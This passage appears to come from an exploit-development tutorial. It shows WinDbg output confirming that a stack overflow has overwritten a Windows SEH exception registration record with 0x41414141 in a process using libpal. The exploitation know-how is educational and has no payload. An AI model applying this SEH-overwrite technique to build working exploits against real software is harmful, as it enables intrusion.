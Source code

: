 ```c
   +0x004 Handler          : 0x41414141     _EXCEPTION_DISPOSITION  +41414141
```

So if we managed to overwrite this structure, let's inspect how many bytes we managed to overwrite starting from such structure's address:
```c
0:010> !teb
TEB at 00286000
    ExceptionList:        0175f454
    StackBase:            01760000
    StackLimit:           0175e000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 00286000
    EnvironmentPointer:   00000000
    ClientId:             000016cc . 00000f30
    RpcHandle:            00000000
    Tls Storage:          0050a108
    PEB Address:          00279000
    LastErrorValue:       0
    LastStatusValue:      c000000d
    Count Owned Locks:    0
    HardErrorMode:        0
0:010> dt _EXCEPTION_REGISTRATION_RECORD 0175f454
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x0175fe0c _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x77316270     _EXCEPTION_DISPOSITION  ntdll!ExecuteHandler2+0
0:010> dt _EXCEPTION_REGISTRATION_RECORD 0x0175fe0c 
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x0175ff44 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x0094df5b     _EXCEPTION_DISPOSITION  libpal!md5_starts+0
0:010> dt _EXCEPTION_REGISTRATION_RECORD 0x0175ff44 
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x41414141 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x41414141     _EXCEPTION_DISPOSITION  +41414141
0:010> dds 0x0175ff44 
0175ff44  41414141
0175ff48  41414141
0175ff4c  41414141
0175ff50  41414141
0175ff54  41414141
0175ff58  41414141
0175ff5c  41414141
0175ff60  41414141
0175ff64  41414141
0175ff68  41414141
0175ff6c  41414141
0175ff70  41414141
0175ff74  41414141
0175ff78  41414141
0175ff7c  41414141
0175ff80  41414141
0175ff84  41414141
0175ff88  41414141
0175ff8c  41414141
0175ff90  41414141
0175ff94  41414141
0175ff98  41414141
0175ff9c  41414141
0175ffa0  41414141
0175ffa4  41414141
0175ffa8  41414141
0175ffac  41414141
```